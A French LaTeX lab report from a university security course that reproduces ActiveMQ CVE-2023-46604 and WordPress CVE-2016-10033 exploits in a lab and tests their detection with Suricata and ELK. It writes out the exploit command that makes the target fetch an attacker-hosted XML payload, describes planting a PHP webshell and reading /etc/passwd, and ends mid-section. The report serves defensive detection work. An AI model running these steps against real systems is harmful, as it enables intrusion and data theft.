\documentclass[12pt]{article}
% --- Encodage et Polices ---
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{lmodern}
\usepackage[hidelinks]{hyperref}

% --- Mise en page (Géométrie du document) ---
\usepackage{geometry}
\geometry{hmargin=2.5cm, vmargin=3cm} % Vos dernières dimensions choisies
\setlength\parindent{0pt}

% --- Langue ---
\usepackage{babel} % Utilise automatiquement l'option 'french' du documentclass

% --- Mathématiques ---
\usepackage{amsmath}
\usepackage{amssymb}

% --- Graphiques et Figures ---
\usepackage{graphicx} 
\usepackage{tikz} 
\usetikzlibrary{arrows}
\usepackage{tabularx}

% --- Outils textuels et Tableaux ---
\usepackage{cite}
\usepackage{enumitem}
\usepackage{array}
\usepackage{booktabs} % Recommandé pour le nouveau tableau proposé !

% --- Légendes ---
\usepackage{caption}
\captionsetup[table]{name=Table}
\captionsetup[figure]{name=Figure}
\usepackage{pgfplots}
\pgfplotsset{compat=1.18}

\begin{document}
	

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Page titre
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{titlepage} % Suppresses displaying the page number on the title page and the subsequent page counts as page 1
	\newcommand{\HRule}{\rule{\linewidth}{0.5mm}} % Defines a new command for horizontal lines, change thickness here
	
	\center % Centre everything on the page
	
	%------------------------------------------------
	%	Headings
	%------------------------------------------------
	
	\textsc{\LARGE Université du Québec à Chicoutimi}\\[1.5cm] % Main heading such as the name of your university/college
	
	\textsc{\Large Department of Computer Science and Mathematics}\\[0.5cm] % Major heading such as course name
	
	\textsc{\large Système de détection d'anomalies et de gestion de logs pour la sécurité des réseaux }\\[0.5cm] % Minor heading such as course title
	
	%------------------------------------------------
	%	Title
	%------------------------------------------------
	
	\HRule\\[0.4cm]
	
	{\huge\bfseries Evaluation of the quantitative and qualitative aspects of security vulnerabilities in web applications generated by artificial intelligence  }\\[0.4cm] % Title of your document
	
	\HRule\\[1.5cm]
	
	%------------------------------------------------
	%	Author(s)
	%------------------------------------------------
	

		\begin{center}
			\large
			\textit{Student}\\
			Delepine Simon
            kuedejeu madeo Guy landry 
            Vandamme Aliona
            Lapôtre Marie-Steffie
			\\
			%etc...
		\end{center}

	
	% If you don't want a supervisor, uncomment the two lines below and comment the code above
	%{\large\textit{Remis à}}\\
	%Sara \textsc{SÉGUIN} % Your name
	
	%------------------------------------------------
	%	Date
	%------------------------------------------------
	
	\vfill\vfill\vfill % Position the date 3/4 down the remaining page
	
	{\large\today} % Date, change the \today to a set date if you want to be precise
	
	%------------------------------------------------
	%	Logo
	%------------------------------------------------
	
	%\vfill\vfill
	%\includegraphics[width=0.2\textwidth]{placeholder.jpg}\\[1cm] % Include a department/university logo - this will require the graphicx package
	
	%----------------------------------------------------------------------------------------
	
	\vfill % Push the date up 1/4 of the remaining page
	
\end{titlepage}	
	

\vspace*{0.25cm} %Permet de tricher sur les "vertical" spaces. De même \hspace*{} peut être utilisé pour les espaces horizontaux.



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% TABLE DES MATIÈRES
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\tableofcontents

\newpage

\addcontentsline{toc}{section}{List of Figures}
\listoffigures
\newpage

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Introduction}\label{sec:Q1}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

All the code is available on the github \newline
\url{https://github.com/SimonDelep/-Syst-me_de_d-tection_d_anomalies-} \newline


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Scénario 1 : Attaque Active MQ (CVE-2023-46604)}\label{sec:Q2}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Contexte et objectif}

Ce scénario porte sur une exécution de code à distance (RCE) contre
\textbf{Apache ActiveMQ}, middleware de messagerie très répandu en entreprise.
La faille \textbf{CVE-2023-46604} touche le protocole \textit{OpenWire} (port
TCP~61616)~: un attaquant disposant d'un accès réseau peut envoyer des données
sérialisées malveillantes qui entraînent le chargement d'un fichier de
configuration Spring distant et, via \texttt{ProcessBuilder}, l'exécution d'une
commande arbitraire sur le serveur broker.

Comme pour le scénario WordPress, l'objectif défensif est double~: reproduire
l'attaque en laboratoire et vérifier que la chaîne Suricata, Filebeat,
Elasticsearch et Kibana conserve une trace exploitable de chaque étape
(réseau et, le cas échéant, alertes).

\subsection{Environnement de test}

\begin{itemize}[nosep]
  \item \textbf{Cible}~: VM \texttt{IDS-Lab} (\texttt{192.168.2.90}) exécutant
        le conteneur \texttt{vulhub/activemq:5.17.3} (ActiveMQ~5.17.3) via
        Docker Compose dans \texttt{~/attaque\_mq}. Les ports publiés sont
        \texttt{61616} (OpenWire), \texttt{8161} (console web) et
        \texttt{5005} (débogage JVM). La variable d'environnement
        \texttt{JAVA\_TOOL\_OPTIONS=-XX:-UseContainerSupport} a été ajoutée
        pour contourner un plantage du JDK~11 embarqué sur un hôte en
        \textit{cgroup v2}.
  \item \textbf{Attaquant}~: poste Windows (\texttt{192.168.2.12}), même réseau
        local que la cible.
  \item \textbf{Supervision}~: Suricata sur \texttt{enp0s8},
        journaux \texttt{/var/log/suricata/eve.json}, envoi vers Elasticsearch
        par Filebeat, visualisation dans Kibana (\texttt{:5601}).
  \item \textbf{Artefacts d'exploitation}~: \texttt{poc.py} et \texttt{poc.xml}
        du dépôt \texttt{vulhub/CVE-2023-46604}. Le XML par défaut lance
        \texttt{touch /tmp/activeMQ-RCE-success} dans le conteneur.
\end{itemize}

\subsection{Phase 1 : préparation de la charge utile}

L'exploit ne se limite pas à un unique paquet~: ActiveMQ doit récupérer le
fichier XML hébergé par l'attaquant. Un serveur HTTP minimal est donc démarré
sur Windows dans le répertoire du PoC (Figure~\ref{fig:mq_http})~:

\begin{verbatim}
python -m http.server 6666
\end{verbatim}

Le fichier \texttt{poc.xml} décrit un bean Spring instanciant
\texttt{java.lang.ProcessBuilder} avec la commande de preuve. Tant que ce
serveur écoute, la cible pourra télécharger la charge utile dès que le script
\texttt{poc.py} aura déclenché la désérialisation vulnérable.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.95\linewidth]{Image/image_attaque_1/Serveur_python.png}
  \caption{Serveur HTTP de l'attaquant (port~6666) prêt à servir \texttt{poc.xml}.}
  \label{fig:mq_http}
\end{figure}

\subsection{Phase 2 : exploitation et preuve de RCE}

La seconde phase envoie la trame OpenWire malveillante vers le broker et
indique l'URL du XML (Figure~\ref{fig:mq_poc})~:

\begin{verbatim}
python poc.py 192.168.2.90 61616 http://192.168.2.12:6666/poc.xml
\end{verbatim}

Le script ne produit en général aucune sortie console~; la réussite se vérifie
côté serveur HTTP et sur la cible. La Figure~\ref{fig:mq_get} montre deux
requêtes \texttt{GET /poc.xml HTTP/1.1} depuis \texttt{192.168.2.90} avec le
code~200, preuve que le broker Java a bien récupéré le fichier sur la machine
attaquante.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.95\linewidth]{Image/image_attaque_1/lancement_commande_attaque.png}
  \caption{Lancement de \texttt{poc.py} contre \texttt{192.168.2.90:61616}.}
  \label{fig:mq_poc}
\end{figure}

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.95\linewidth]{Image/image_attaque_1/Fichier_telecharger_par_notre_vm.png}
  \caption{Téléchargement de \texttt{poc.xml} par la cible depuis le serveur HTTP de l'attaquant.}
  \label{fig:mq_get}
\end{figure}

La compromission est confirmée \textit{in situ} en inspectant le conteneur
(Figure~\ref{fig:mq_proof})~: le fichier témoin
\texttt{/tmp/activeMQ-RCE-success} a été créé avec l'utilisateur \texttt{root}
à l'intérieur du broker, ce qui valide l'exécution de code à distance.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.92\linewidth]{Image/image_attaque_1/Preuve_attaque_fonctionnel.png}
  \caption{Preuve de RCE~: fichier témoin présent dans le conteneur ActiveMQ.}
  \label{fig:mq_proof}
\end{figure}

\subsection{Phase 3 : détection par la chaîne de supervision}

Contrairement à l'attaque WordPress, le canal d'exploitation principal
(OpenWire, port~61616) n'apparaît pas sous forme de requêtes HTTP classiques
dans les journaux. En revanche, le second flux --- le téléchargement de
\texttt{poc.xml} depuis \texttt{192.168.2.12:6666} --- produit des événements
\texttt{event\_type: http} visibles dans \texttt{eve.json} (User-Agent
\texttt{Java/11.0.16}, URL \texttt{/poc.xml}, statut~200). La
Figure~\ref{fig:mq_suricata} illustre la surveillance en direct à l'aide de~:

\begin{verbatim}
sudo tail -f /var/log/suricata/eve.json | grep -a --line-buffered "192.168.2.12"
\end{verbatim}

On y observe à la fois le trafic HTTP de récupération de la charge utile et,
dans la même fenêtre temporelle, d'autres connexions depuis le poste
attaquant vers la VM (par exemple l'accès à Kibana pour l'analyse).

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=\linewidth]{Image/image_attaque_1/Logs_suricata.png}
  \caption{Événements Suricata filtrés sur l'adresse de l'attaquant (\texttt{192.168.2.12}).}
  \label{fig:mq_suricata}
\end{figure}

Après indexation par Filebeat, les mêmes champs permettent de retrouver
l'incident dans Kibana (Discover ou tableaux de bord du module Suricata).
La Table~\ref{tab:mq_fields} résume les filtres les plus utiles pour ce
scénario.

\begin{table}[htbp]
  \centering
  \begin{tabular}{@{}lll@{}}
    \toprule
    \textbf{Donnée} & \textbf{Champ Kibana} & \textbf{Exemple de valeur} \\
    \midrule
    IP de l'attaquant   & \texttt{source.ip}           & \texttt{192.168.2.12} \\
    IP de la cible      & \texttt{destination.ip}      & \texttt{192.168.2.90} \\
    Port du broker      & \texttt{destination.port}    & \texttt{61616} \\
    Récupération XML    & \texttt{url.original}        & \texttt{/poc.xml} \\
    Client Java         & \texttt{user\_agent.original} & \texttt{Java/11.0.16} \\
    Type d'événement    & \texttt{suricata.eve.event\_type} & \texttt{http}, \texttt{flow} \\
    \bottomrule
  \end{tabular}
  \caption{Champs Elasticsearch pour retrouver l'attaque ActiveMQ dans Kibana.}
  \label{tab:mq_fields}
\end{table}

Exemples de requêtes KQL~:
\texttt{destination.port : 61616 and source.ip : "192.168.2.12"} pour le
flux OpenWire~;
\texttt{url.original : *poc.xml*} pour le téléchargement de la charge utile.

\subsection{Synthèse}

La CVE-2023-46604 montre qu'un service de messagerie exposé sur le réseau peut
être compromis sans authentification préalable, à condition de contrôler un
hôte capable de servir le XML malveillant. Sur le plan défensif, la chaîne
ELK reste pertinente~: même lorsque le protocole applicatif (OpenWire) est
opaque, les étapes auxiliaires (HTTP vers \texttt{poc.xml}) et les flux TCP
vers le port~61616 laissent des traces corrélables. Comme pour WordPress,
Suricata offre surtout la \textit{visibilité}~; des règles dédiées ActiveMQ
ou OpenWire seraient nécessaires pour générer des alertes explicites sans
filtrage manuel.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Scénario 2 : exploitation d'un WordPress vulnérable (CVE-2016-10033)}\label{sec:Q3} 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Contexte et objectif}

Ce scénario illustre une attaque complète contre une application web WordPress
volontairement vulnérable, depuis la reconnaissance jusqu'à l'exécution de
commandes à distance, puis sa détection par la chaîne de supervision. L'objectif
n'est pas seulement de compromettre la cible, mais surtout de vérifier que notre
système de détection (Suricata, Filebeat, Elasticsearch et Kibana) capture bien
chaque phase de l'attaque et permet de la retrouver a posteriori.

La vulnérabilité exploitée est la CVE-2016-10033, une exécution de code à distance
(RCE) affectant la bibliothèque PHPMailer utilisée par WordPress~4.6. Lors d'une
demande de réinitialisation de mot de passe, l'en-tête HTTP \texttt{Host} de la
requête est transmis sans assainissement à la commande \texttt{sendmail} comme
adresse d'expéditeur. En injectant des arguments dans cet en-tête, un attaquant
non authentifié peut faire exécuter une commande système arbitraire par le serveur.

\subsection{Environnement de test}

L'environnement reproduit une architecture réaliste composée des éléments suivants~:

\begin{itemize}[nosep]
  \item \textbf{Cible} : une machine virtuelle \texttt{IDS-Lab} (\texttt{192.168.2.90})
        hébergeant via Docker Compose deux conteneurs~: \texttt{vulhub/wordpress:4.6}
        exposé sur le port~8080 et \texttt{mysql:5} pour la base de données.
  \item \textbf{Attaquant} : un poste Windows (\texttt{192.168.2.12}) sur le même
        réseau local.
  \item \textbf{Supervision} : Suricata inspecte le trafic sur l'interface
        \texttt{enp0s8} et journalise les transactions réseau dans
        \texttt{/var/log/suricata/eve.json}. Filebeat expédie ces journaux vers
        Elasticsearch (port~9200), consultés ensuite dans Kibana (port~5601).
\end{itemize}

\subsection{Phase 1 : reconnaissance}

La première étape consiste à cartographier les services exposés par la cible.
Un balayage de ports (Figure~\ref{fig:wp_nmap}) confirme l'ouverture des ports
8080 (serveur web WordPress), 5601 (interface Kibana) et 9200 (Elasticsearch).
Le mode \texttt{-sT -Pn} a été employé afin d'utiliser la pile TCP du système
d'exploitation et d'ignorer la phase de découverte par \textit{ping}.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.9\linewidth]{Image/Image_Attaque_2/scan_nmap.png}
  \caption{Balayage \texttt{nmap} révélant les ports ouverts de la cible.}
  \label{fig:wp_nmap}
\end{figure}

Une simple requête \texttt{curl} sur la page de connexion (Figure~\ref{fig:wp_login})
permet ensuite d'identifier la technologie sous-jacente~: l'en-tête de réponse
dévoile un serveur \texttt{Apache/2.4.7 (Ubuntu)} et surtout \texttt{PHP/5.5.9},
une version ancienne cohérente avec WordPress~4.6, ce qui oriente vers la CVE-2016-10033.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.9\linewidth]{Image/Image_Attaque_2/Curl_page_login.png}
  \caption{Identification du serveur web et de la version de PHP via les en-têtes HTTP.}
  \label{fig:wp_login}
\end{figure}

\subsection{Phase 2 : préparation de la charge utile}

L'exploit utilisé (\texttt{pwnscriptum}) procède en deux temps~: il injecte d'abord
une commande qui fait télécharger un script par la cible, puis une seconde commande
qui exécute ce script. Il faut donc héberger la charge utile sur un serveur
accessible depuis la cible. Un serveur web minimal est lancé côté attaquant à l'aide
de \texttt{python -m http.server 80} (Figure~\ref{fig:wp_python})~; les lignes
\texttt{GET /1.txt} confirment que la cible récupère bien le fichier.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.9\linewidth]{Image/Image_Attaque_2/serveur_python.png}
  \caption{Serveur HTTP de l'attaquant hébergeant la charge utile \texttt{1.txt}.}
  \label{fig:wp_python}
\end{figure}

Le contenu de la charge utile (Figure~\ref{fig:wp_payload}) dépose un \textit{webshell}
PHP minimal dans la racine web du serveur~; ce fichier \texttt{ids.php} exécute toute
commande passée dans le paramètre \texttt{c} de l'URL. Un fichier témoin
\texttt{/tmp/pwned\_ids} est également créé pour valider l'exécution.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.9\linewidth]{Image/Image_Attaque_2/commandes.png}
  \caption{Contenu de la charge utile~: dépôt du webshell \texttt{ids.php} dans la racine web.}
  \label{fig:wp_payload}
\end{figure}

\subsection{Phase 3 : exploitation et exécution de code à distance}

Le lancement de l'exploit déclenche l'injection dans l'en-tête \texttt{Host}, puis
le téléchargement et l'exécution de la charge utile. La compromission est confirmée
en invoquant le webshell avec la commande \texttt{id} (Figure~\ref{fig:wp_rce})~: le
serveur répond \texttt{uid=33(www-data)}, prouvant que l'attaquant exécute désormais
des commandes arbitraires avec les privilèges du serveur web.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.9\linewidth]{Image/Image_Attaque_2/curl_via_faille.png}
  \caption{Preuve de l'exécution de code à distance~: le webshell renvoie l'identité \texttt{www-data}.}
  \label{fig:wp_rce}
\end{figure}

\subsection{Phase 4 : post-exploitation}

Une fois le webshell en place, l'attaquant dispose d'un accès interactif au système.
La Figure~\ref{fig:wp_passwd} montre l'exécution de \texttt{whoami} puis la lecture
du fichier \texttt{/etc/passwd}, c'est-à-dire l'exfiltration d'informations sensibles
sur les comptes du système. La Figure~\ref{fig:wp_ls} présente l'énumération complète
de la racine WordPress (\texttt{/var/www/html}), confirmant un contrôle total de
l'arborescence de l'application.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.85\linewidth]{Image/Image_Attaque_2/commande.png}
  \caption{Exécution de commandes via le webshell~: \texttt{whoami} et lecture de \texttt{/etc/passwd}.}
  \label{fig:wp_passwd}
\end{figure}

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.85\linewidth]{Image/Image_Attaque_2/Commande_via_faille.png}
  \caption{Énumération de la racine web \texttt{/var/www/html} à travers le webshell.}
  \label{fig:wp_ls}
\end{figure}

\subsection{Phase 5 : détection par la chaîne de supervision}

L'ensemble de l'attaque transite par le réseau et se trouve donc capturé par Suricata.
Chaque requête HTTP vers le webshell génère un événement \texttt{event\_type: http}
dans \texttt{eve.json}, incluant l'URL complète, la méthode, l'adresse source et le
code de réponse. La Figure~\ref{fig:wp_evejson} montre un tel événement pour la requête
\texttt{/wp-content/ids.php?c=uname -a}, tandis que la Figure~\ref{fig:wp_tail} illustre
la capture en temps réel des requêtes \texttt{ids.php} directement dans le journal de
Suricata.

\begin{figure}[htbp]
  \centering
